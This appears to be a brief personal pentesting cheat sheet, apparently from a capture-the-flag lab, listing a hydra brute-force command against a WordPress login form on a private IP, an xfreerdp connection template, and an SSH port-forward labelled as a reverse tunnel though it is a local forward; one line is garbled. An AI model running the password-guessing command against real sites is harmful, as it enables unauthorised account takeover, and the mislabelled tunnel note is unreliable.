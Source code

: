 # Manual Attack CheatSheet

## intruder sniper

-later la males

## hydra example

hydra -l Elliot -P wordl.txt 10.10.203.64 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username' -t 30

## spin up rdp

xfreerdp /u:username /v:host


## Reverse SSH Tunnel 
- ss -tulpn
- ssh -L 10000:localhost:10000 <username>@<ip>